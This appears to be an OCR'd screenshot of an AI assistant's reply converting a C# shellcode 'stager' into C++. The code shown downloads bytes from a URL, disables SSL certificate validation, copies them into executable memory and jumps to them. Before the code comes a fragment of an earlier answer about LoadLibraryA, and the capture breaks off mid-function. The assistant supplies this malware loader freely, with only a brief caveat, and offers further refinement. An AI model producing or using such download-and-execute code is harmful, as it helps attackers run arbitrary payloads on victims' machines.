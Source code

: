 2. **Memory Buffer**: The file is read into a buffer and then loaded into memory using `LoadLibraryA`, which loads the file as a DLL. Note that `LoadLibraryA` expects a path, so this might need adjustment based on the exact behavior you need. If you need to load the binary from memory, you would typically use a more complex process.

3. **Execution**: The code attempts to locate and call a function within the DLL using `GetProcAddress` and execute it.

### Important Considerations:
- **Error Handling**: Proper error checking is essential, particularly around network operations and memory management.
- **Security**: Executing downloaded code carries significant security risks and is generally unsafe. Ensure you understand the implications and only do this in controlled environments.
- **Encoding/Decoding**: If your stager involves encrypted shellcode, you’ll need to add decryption logic before execution.

If the original `stager.cs` contains additional features or specific nuances, you might need to adjust this C++ code accordingly. Let me know if you need further refinement!

Here is a C++ version of the `stager.cs` code that downloads bytecode from a URL, disables SSL certificate checks, copies the shellcode into memory, and then executes it.

### C++ Code:

```cpp
#include <windows.h>
#include <wininet.h>
#include <iostream>

// Disable SSL certificate validation
BOOL WINAPI InternetCallback(HINTERNET, DWORD_PTR, DWORD, LPVOID, DWORD) {
    return TRUE;
}

// Function to execute shellcode
void ExecuteShellcode(BYTE* shellcode, SIZE_T size) {
    // Allocate executable memory
    void* exec_mem = VirtualAlloc(0, size, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

    // Copy shellcode into the allocated memory
    RtlMoveMemory(exec_mem, shellcode, size);

    // Cast the memory to a function pointer and execute it
    auto shellcode_func = (void(*)())exec_mem;
    shellcode_func();
}

// Function to download bytecode from URL and execute it
void DownloadAndExecuteShellcode(const char* url) {
    // Initialize WinINet
    HINTERNET hInternet = InternetOpen("Stager", INTERNET_OPEN_TYPE_DIRECT, NULL, NULL, 0);
    if (!hInternet) {
        std::cerr << "InternetOpen failed!" << std::endl;
        return;
    }

    // Set SSL certificate validation callback
    InternetSetStatusCallback(hInternet, InternetCallback);

    // Open the URL
    HINTERNET hUrl = InternetOpenUrl(hInternet, url, NULL, 0, INTERNET_FLAG_NO_CACHE_WRITE | INTERNET_FLAG_IGNORE_CERT_CN_INVALID | INTERNET_FLAG_IGNORE_CERT_DATE_INVALID, 0);
    if (!hUrl) {
        std::cerr << "InternetOpenUrl failed!" << std::endl;
        InternetCloseHandle(hInternet);
```